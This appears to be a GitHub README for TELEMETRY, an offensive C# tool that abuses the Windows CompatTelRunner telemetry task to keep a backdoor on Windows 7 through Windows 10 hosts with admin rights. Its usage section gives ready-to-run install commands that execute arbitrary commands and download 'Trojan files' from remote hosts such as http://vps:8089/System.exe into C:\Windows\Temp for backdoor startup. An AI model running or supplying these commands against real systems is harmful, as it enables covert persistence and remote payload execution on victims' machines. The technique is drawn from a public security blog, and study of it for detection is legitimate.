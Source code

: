 # TELEMETRY


### Background

[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE

Today we’re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. The process outlined here affects Windows machines from 2008R2/Windows 7 through 2019/Windows 10.

- **Local admin rights to install (requires the ability to write to HKLM)**
- **Have CompatTelRunner.exe**
- **2008R2/Windows 7 through 2019/Windows 10**

### Command Line Usage

        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE
                                                 .Imanfeng
    	Features:
            Install:   -   Deployment authority maintains backdoor
    
        Command :
            TELEMETRY.exe install /command:calc
            -   Execute command without file backdoor
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\Windows\Temp\check.exe
            -   Remotely download Trojan files to the specified directory for backdoor startup
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe
            -   Remotely download Trojan files to C:\\Windows\\Temp\\compattelrun.exe for backdoor startup
    
            TELEMETRY.exe install /path:C:\Windows\Temp\check.exe
            -   Set path Trojan files for backdoor startup
    
        Parameter:
            /command: -   Execute Command
            /url:     -   Download FROM
            /path:    -   Download To

- Execute command without file backdoor

  ```
  Telemetry.exe install /command:calc
  ```

  ![1](PIC/2.png)

  

- Remotely download Trojan files for backdoor startup

  ```
  Telemetry.exe install /url:http://vps:8089/System.exe
  ```

  ![2](PIC/1.png)

  

### Learn

https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/